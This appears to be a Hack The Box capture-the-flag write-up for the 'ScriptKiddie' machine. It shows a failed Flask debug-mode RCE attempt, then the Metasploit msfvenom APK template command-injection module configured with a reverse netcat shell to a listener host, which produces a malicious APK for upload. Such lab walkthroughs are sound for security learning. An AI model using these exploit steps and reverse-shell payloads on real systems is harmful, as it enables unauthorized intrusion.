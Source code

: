 ```
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# python exploit.py 10.10.10.226 5000 10.10.14.3 8888                                              255 ⨯
[-] Debug is not enabled
```

Reviewing the script we see this information, might be barking up the wrong tree.
> if "Werkzeug " not in response.text: print "[-] Debug is not enabled" sys.exit(-1)

Excerpts from ['Flask RCE Debug Mode'](http://ghostlulz.com/flask-rce-debug-mode/):
>Werkzeug is a web server gateway interface (WSGI) web application library which Flask heavily relies on. A WSGI is a calling convention for web servers to forward requests to web applications or frameworks written in the Python programming language.

Excerpts from ['Hacking Flask Applications'](https://medium.com/swlh/hacking-flask-applications-939eae4bffed):

>Sometimes, you can also access the debugger console by navigating to the path “_/console_”, if it is set as a general-purpose path for the debugger.

## MSFVenom Templates
With this information we move on to other avenues. Re-review of the site, re-review of what these inputs are performing / executing. Generated some windows payloads, noted that linux always errors out, confirmed that Android payloads generate. Nmap scan isn't accepting any additional flags/input, searchsploit input doesn't necessarily have any flags that will get us anywhere (query of a 3rd party). Template upload really seems like the only file upload method we have, so we start digging into that.

We do have the ability to include templates, so I began researching what I can potentially do to manipulate this ability. Some relevant articles from the research:
[Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
[GitHub](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)

Following the steps in [this Rapid7 article](https://github.com/rapid7/metasploit-framework/pull/14331), I was able to establish a reverse-shell by manipulating the upload feature on the website responsible for generating MSFVENOM payloads (in this case, for android).

### Steps to accomplish:
Generate payload
```
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111        yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**
...

[+] msf.apk stored at /root/.msf4/local/msf.apk
```
